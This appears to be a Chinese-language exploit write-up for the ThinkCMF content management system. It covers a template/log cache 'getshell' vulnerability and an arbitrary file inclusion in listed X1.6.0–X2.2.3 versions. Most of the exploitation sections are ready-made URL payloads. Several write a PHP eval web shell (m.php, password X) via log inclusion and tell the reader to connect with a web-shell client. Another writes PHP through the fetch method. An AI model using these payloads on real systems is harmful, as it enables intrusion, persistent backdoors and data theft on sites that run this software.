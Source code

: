 ## 应用简介

ThinkCMF是基于ThinkPHP框架开发的内容管理系统

## ThinkCMF缓存Getshell漏洞

### 漏洞概述

由于thinkcmf2.x使用了thinkphp3.x作为开发框架，默认情况下启用了报错日志并且开启了模板缓存，导致可以使用加载一个不存在的模板来将生成一句话的PHP代码写入data/runtime/Logs/Portal目录下的日志文件中，再次包含该日志文件即可在网站根目录下生成一句话木马m.php

日志文件格式为YY_MM_DD.log，如当前日期为2019年12月12日，日志文件为19_12_12.log，完整路径为

```
data/runtime/Logs/Portal/19_12_12.log
```

### 漏洞利用

Payload1：

首先访问

```
http://target.domain/?a=display&templateFile=%3C?php%20file_put_contents(%27m.php%27,%27%3C%3fphp+eval($_POST[%22X%22])%3b%3F%3E%27);die();?%3E
```

然后请求

```
http://target.domain/?a=display&templateFile=data/runtime/Logs/Portal/YY_MM_DD.log
即可在
http://xxx.com/根目录生成m.php，密码是X
```

Payload2:

首先访问

```
http://target.domain/?a=display&templateFile=%3C%3F%70%68%70%20%65%76%61%6C%28%24%5F%50%4F%53%54%5BX%5D%29%3B%3F%3E
```

然后菜刀连接

```
http://target.domain/?a=display&templateFile=data/runtime/Logs/Portal/YY_MM_DD.log
```

密码同样是X

## ThinkCMF框架任意文件包含

### 影响版本

```
ThinkCMF X1.6.0 
ThinkCMF X2.1.0
ThinkCMF X2.2.0 
ThinkCMF X2.2.1 
ThinkCMF X2.2.2 
ThinkCMF X2.2.3  
```

### 漏洞利用

第一种： 通过构造a参数的fetch方法，可以不需要知道文件路径就可以把php代码写入文件phpinfo版payload

```
?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('test.php','<?php phpinfo(); ?>')</php>
```

第二种： 通过构造a参数的display方法，实现任意文件包含漏洞

```
?a=display&templateFile=README.md
```